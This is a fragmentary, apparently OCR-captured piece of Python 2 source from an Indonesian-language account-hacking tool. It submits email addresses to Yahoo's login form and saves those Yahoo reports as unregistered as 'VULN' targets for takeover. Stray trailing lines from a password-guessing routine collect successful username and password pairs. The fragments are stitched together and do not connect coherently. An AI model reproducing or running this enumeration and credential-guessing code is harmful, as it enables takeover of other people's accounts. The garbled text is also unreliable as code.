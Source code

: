 'yahoo.com' in otw:			br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")			br._factory.is_html = True			br.select_form(nr=0)			br["username"] = mail			klik = br.submit().read()			jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')			try:				pek = jok.search(klik).group()			except:				continue			if '"messages.ERROR_INVALID_USERNAME">' in pek:				save.write(mail + '\n')				print("\033[1;96m[\033[1;92mVULN✓\033[1;96m] \033[1;92m" +mail)				berhasil.append(mail)	print 42*"\033[1;96m="	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'	print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))	print"\033[1;96m[+] \033[1;92mFile Tersimpan \033[1;91m:\033[1;97m out/FileMailVuln.txt"	save.close()	raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")	menu()	 		if __name__ == '__main__':	login()

										print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6
														oks.append(user+pass6)
													else:
			
